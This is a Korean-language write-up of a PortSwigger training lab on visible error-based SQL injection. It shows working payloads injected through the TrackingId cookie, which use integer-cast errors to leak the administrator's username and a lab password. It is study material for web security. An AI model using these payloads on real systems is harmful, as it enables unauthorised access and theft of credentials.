

# Visible error-based SQL injection

## 문제 조건과 설명

`TrackingId` 쿠키가 SQL 조회에 들어간다. 조회 결과는 화면에 보이지 않지만 SQL 오류의 내용은 응답에 나타난다. 문제에서 `users(username, password)` 테이블을 알려 준다. `administrator`의 비밀번호를 알아내 로그인하면 완료된다.

[PortSwigger 실습](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

## 탐색 및 풀이 기록

### 초기 관찰

정상적인 상품 요청은 HTTP 200이었다. `TrackingId` 끝에 작은따옴표를 붙이자 HTTP 500 응답에 `Unterminated string literal`과 `SELECT * FROM tracking WHERE id = ...`가 나타났다. 쿠키 값이 SQL 문자열 안에 들어가는 것을 확인했다.

`UNION SELECT 'TEST'`를 붙인 요청은 HTTP 200이었지만 정상 상품 페이지와 본문이 같았다. `UNION`으로 추가한 값은 화면에 표시되지 않았다.

반면 문자열을 정수로 바꾸도록 하자 오류에 그 문자열이 포함됐다.

~~~sql fragment
<원래 TrackingId>' UNION SELECT CAST('TEST' AS INTEGER)-- -
~~~

~~~text
ERROR: invalid input syntax for type integer: "TEST"
~~~

이 오류를 통해 값 자체를 읽을 수 있음을 확인했다.

### 실행 과정

처음에는 관리자 비밀번호를 `UNION`과 중첩 `CAST`로 조회하려 했으나, 긴 쿠키 입력에서 `Unterminated string literal` 오류가 났다. 쿼리를 짧게 줄여 먼저 조회한 행의 사용자 이름을 오류로 확인했다.

~~~sql fragment
' OR 1=CAST((SELECT username FROM users LIMIT 1) AS INT)-- -
~~~

HTTP 500 응답에 `invalid input syntax for type integer: "administrator"`가 나타났다. 같은 방식으로 `password`를 조회했다.

~~~sql fragment
' OR 1=CAST((SELECT password FROM users LIMIT 1) AS INT)-- -
~~~

이번에는 오류에 `5hisa6bivhkxb6o61swp`가 표시됐다. `LIMIT 1`만으로 행 순서를 보장할 수는 없으므로, 이 인스턴스에서 관리자만 해당하는 `username<'b'` 조건을 넣은 짧은 조회에서도 같은 비밀번호가 나오는 것을 확인했다.

~~~sql fragment
'OR 1=(SELECT password::int FROM users WHERE username<'b')--
~~~

확인한 비밀번호로 `administrator`에 로그인했다.

## 최종 결과

관리자 계정 화면과 실습 완료 배너가 표시됐다.

## 배운 점

일반 조회 결과가 숨겨져 있어도, 형변환 오류가 변환하려던 원래 값을 표시하면 그 오류에서 데이터를 직접 읽을 수 있다. 긴 입력은 이번 요청에서 문법 오류가 났으므로 실제로 동작한 짧은 쿼리로 확인했다.

## 관련 개념

- [SQL 기초와 SQL 인젝션이 생기는 원리](../../concepts/sql-injection-foundations.md)
